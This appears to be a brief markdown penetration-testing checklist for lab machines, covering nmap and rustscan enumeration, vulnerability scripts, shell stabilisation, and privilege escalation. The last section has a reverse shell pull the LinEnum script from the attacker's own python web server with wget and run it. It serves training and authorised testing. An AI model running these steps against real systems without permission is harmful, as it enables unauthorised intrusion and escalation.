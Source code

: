 ## Setting
1.export ip=10.10.10.10\
1.5 make directory for nmap result: mkdir nmap && cd nmap
## Ennumeration
2. `nmap -sC -sV -p- -Pn $ip --open -oN result   AND  rustscan -a $IP and rustscan -a $IP`.\ 
3. Check which ports are open. Take note of service running and versions(for searchsploit)\
4. Manual ennumeration. Visit the open ports to see if we can get initial foothold information. e.g anoymous login, default login,etc\
5. Check for vulnerabiltieis on specific ports using nmap script `nmap -p 80,445,139 --script=*vuln* $IP`
## Using searchsploit, payload, revershell 

## Getting a reverseshell(stable)

## Privilege Escalation
0. Stabalize shell `python3 -c 'import pty; pty.spawn("/bin/bash")'` 
1.Automated scan for vulnerabilities or manual ennumeration.\
2.Create a directory and a a linEnum.sh file. Copy paste the content from https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh\
3.Host a python server `python3 -m http.server 8080` to transfer the linEum.sh\
4.From the reverse shell, `wget http://$myIP:8080/linEum.sh .` to recieve linEum.sh\
5.Give access. `chmod +x linEum.sh` and `./linEum -t` \
 
